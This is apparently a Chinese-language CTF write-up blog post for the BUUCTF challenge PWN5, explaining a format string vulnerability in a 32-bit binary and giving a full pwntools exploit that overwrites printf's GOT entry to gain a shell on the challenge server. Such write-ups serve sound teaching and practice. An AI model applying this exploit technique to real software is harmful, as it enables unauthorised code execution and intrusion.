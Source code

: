 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      BUUCTF PWN5				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-2.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```


# 第五空间2019 决赛PWN5

## 考点

- 格式化字符串漏洞

## 解题过程

1. 首先使用`checksec`工具查看基本信息

![checksec](https://s3.bmp.ovh/imgs/2023/10/23/5fb282a04040137e.png)

​		为32位，canary，dep防护

2. 使用ida工具进行静态分析。

`main`

![main](https://s3.bmp.ovh/imgs/2023/10/23/e3464ffd0f8240a3.png)

​		main函数主要代码如上图所示，可以看见`print((int)v7)`存在格式化字符串输出漏洞，因此可以考虑进行利用（**注：由于输入read限制了输入长度，导致无法通过泄漏canary方法来进行栈溢出攻击。**）

3. 构造python脚本如下，主要思路为修改printf的got表plt地址为要执行的代码地址（若开启full relro则无法使用），然后再代码执行到下一次调用printf函数时会转去执行目标代码。获得shell。

```python
from pwn import *

context(arch="i386", log_level="debug")
# p = process("./pwn")
p = remote("node4.buuoj.cn", 29338)

elf = ELF("./pwn")
printf_got = elf.got["printf"]
info(printf_got)
vuln_1 = str(0x0804)
vuln_2 = str(0x931A-0x0804)

payload = flat(b'%', vuln_1, b'c',b'%17$hn', b'%', vuln_2, b'c', b'%18$hn')
payload = payload.ljust(28, b'\x00')
payload = flat(payload, printf_got+2, printf_got)
# gdb.attach(p, 'b *0x080492BC')
p.sendlineafter(b'your name:', payload)
p.recvuntil(b"Hello,")

p.interactive()
```

## 结果

![result](https://s3.bmp.ovh/imgs/2023/10/23/1c94abe36580b65a.png)
